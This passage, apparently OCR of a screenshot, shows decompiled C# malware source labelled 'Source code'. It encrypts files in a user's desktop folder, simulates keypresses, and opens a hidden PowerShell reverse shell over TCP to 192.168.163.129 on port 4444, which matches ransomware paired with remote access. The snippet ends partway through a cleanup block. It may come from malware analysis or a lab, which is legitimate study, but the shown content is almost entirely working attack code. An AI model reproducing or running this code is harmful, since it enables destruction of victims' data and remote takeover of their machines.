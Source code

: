```c#
		string item2 = valueTuple.Item2;
		string text = "C:\\Users\\admin\\Desktop\\important";
		Program.EncryptFilesInDirectory(text, item, item2);
		Program.PressKey(45);
		SendKeys.SendWait("%f");
		Program.ReleaseKey(45);
		TcpClient tcpClient = new TcpClient("192.168.163.129", 4444);
		try
		{
			Stream stream = tcpClient.GetStream();
			try
			{
				StreamReader streamReader = new StreamReader(stream);
				try
				{
					Program.streamWriter = new StreamWriter(stream);
					StringBuilder stringBuilder = new StringBuilder();
					Process process = new Process();
					process.StartInfo.FileName = "powershell";
					process.StartInfo.CreateNoWindow = true;
					process.StartInfo.UseShellExecute = false;
					process.StartInfo.RedirectStandardOutput = true;
					process.StartInfo.RedirectStandardInput = true;
					process.StartInfo.RedirectStandardError = true;
					process.OutputDataReceived += Program.CmdOutputDataHandler;
					process.Start();
					process.BeginOutputReadLine();
					for (;;)
					{
						stringBuilder.Append(streamReader.ReadLine());
						process.StandardInput.WriteLine(stringBuilder);
						stringBuilder.Remove(0, stringBuilder.Length);
					}
				}
				finally
				{
					if (streamReader != null)
					{
						((IDisposable)streamReader).Dispose();
						goto IL_156;
					}
					goto IL_156;
					IL_156:;
				}
			}
			finally
			{
				if (stream != null)
				{
					((IDisposable)stream).Dispose();
					goto IL_163;
				}
				goto IL_163;
				IL_163:;
			}
		}
		finally
		{
			if (tcpClient != null)
			{
				((IDisposable)tcpClient).Dispose();
				goto IL_170;
			}
```